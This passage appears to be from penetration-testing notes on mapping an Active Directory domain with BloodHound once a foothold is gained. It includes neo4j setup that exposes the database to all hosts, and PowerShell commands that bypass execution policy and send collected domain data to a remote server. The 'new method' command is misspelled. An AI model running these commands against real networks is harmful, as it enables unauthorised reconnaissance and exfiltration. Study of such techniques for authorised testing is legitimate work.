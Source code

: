 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain. Any user can query Active Directory for groups and sessions.

Now we can use that to make a cool GUI map of the entire AD which can be quirired in using BloodHound. Do the following:

- [Install neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/)
- Run neo4j from `/opt/neo4j-community-3.1.1/bin/neo4j start`
- Navigate to localhost:7474 in your browser.
- Set a new password for the neo4j account.
- Edit neo4j.conf and set the following parameters to make any host be able to access the database.
```
dbms.connector.http.enabled=true
dbms.connector.http.listen_address=0.0.0.0:7474
```
- Restart neo4j with  `/opt/neo4j-community-3.1.1/bin/neo4j restart`
- Launch BloodHound and log in to the neo4j database


The old method:
```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

The new method:
```
scriptimport /path/to/powershell-script.ps1
scrimptcmd Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

You should now see data being populated into the database and you can play with BloodHound to create really some really cool maps. You can also perform queries to show the shortest path to DA, etc.
